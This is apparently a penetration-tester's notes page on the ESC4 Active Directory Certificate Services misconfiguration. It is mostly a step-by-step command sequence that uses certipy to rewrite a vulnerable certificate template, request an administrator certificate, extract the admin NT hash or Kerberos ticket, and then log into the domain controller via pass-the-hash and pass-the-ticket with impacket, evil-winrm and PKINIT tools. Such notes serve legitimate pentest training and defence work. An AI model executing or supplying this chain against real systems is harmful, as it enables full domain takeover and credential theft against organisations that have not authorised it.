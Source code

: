 # ESC4

ESC4 is possible when templates are misconfigured at the access control level. Should Access Control Entries (ACEs) allow unintended, or unprivileged Active Directory users to edit security settings in the template it can result in unintended users being granted one of the following template security permissions:

* Owner
* WriteOwnerPrincipals
* WriteDaclPrincipals
* WritePropertyPrincipals

These permissions permit any domain user to modify any property in the template, making the template vulnerable.

The ESC4 template has the following security issues, making it vulnerable:

* Enabled: **True**
* Requires Manager Approval: **FALSE**

<figure><img src="../../../../.gitbook/assets/image (179).png" alt=""><figcaption><p>Certipy output</p></figcaption></figure>

## Modifying the certificate template using authorized user

Use a authorized user to modifying the vulnerable template that allow us to request admin certification with Certypy tool

{% code title="certipy" overflow="wrap" %}
```bash
certipy-ad template -dc-ip <DC_IP> -u <USER> -p <PASS> -template <TEMPLATE_NAME> -target-ip <TARGET_IP> -save-old

# -save-old: Save the old configuration
```
{% endcode %}



### Requesting a domain admin certificate using modified ESC4 template

Request the administrator certificate with a AD user with privilege.

{% code title="" overflow="wrap" %}
```bash
certipy req -ca <CERTIFICATE_AUTHORITIES> -dc-ip <DC_IP> -u <USER> -p <PASSWORD> -template <TEMPLATE_NAME> -target-ip <TARGET_IP> -upn administrator@<DOMAIN>
```
{% endcode %}



### Use .pfx certificate file to get creds

Once we have obtained the .pfx certificate file, we can request the domain admin TGT ticket and the administrator hash to gain access to the domain controller&#x20;

```bash
certipy auth -pfx administrator.pfx
```



### Restoring the original Template after the attack using the old configuration

{% code title="" overflow="wrap" %}
```bash
certipy-ad template -dc-ip <DC_IP> -u <USER> -p <PASS> -template <TEMPLATE_NAME> -target-ip <TARGET_IP> -configuration <TEMPLATE_NAME>.json
```
{% endcode %}



## Gaining Access to DC

Once we obtain either the administrator hash or the TGT ticket, we can use different tools to log into the Domain Controller, such as:

* impacket-smbexec
* impacket-psexec
* evil-winrm
* NetExec

### Use Pass-The-Hash technique

{% code title="smbexec" %}
```bash
impacket-smbexec administrator@<DC_IP> -hashes <ADMINISTRATOR_HASH>
```
{% endcode %}

{% code title="psexec" %}
```bash
impacket-psexec administrator@<DC_IP> -hashes <LMHASH:NTHASH>
```
{% endcode %}

{% code title="evil-winrm" %}
```bash
evil-winrm -i <DC_IP> -u Administrator -H <ADMINISTRATOR_HASH>
```
{% endcode %}



### Use Pass-The-Ticket technique

{% code title="psexec" %}
```bash
export KRB5CCNAME=administrator.ccache

impacket-psexec administrator@<DC_IP> -k -no-pass
```
{% endcode %}

{% code title="PKINIT & psexec" overflow="wrap" %}
```bash
python getttgtpkinit.py <DOMAIN>/administrator -cert-pfx /PATH/TO/administrator.pfx PKINIT-Administrator.ccache

export KRB5CCNAME=PKINIT-Administrator.ccache

impacket-psexec administrator@<DC_IP> -k -no-pass
```
{% endcode %}





## Resources

{% embed url="https://www.rbtsec.com/blog/active-directory-certificate-services-adcs-esc4/" %}
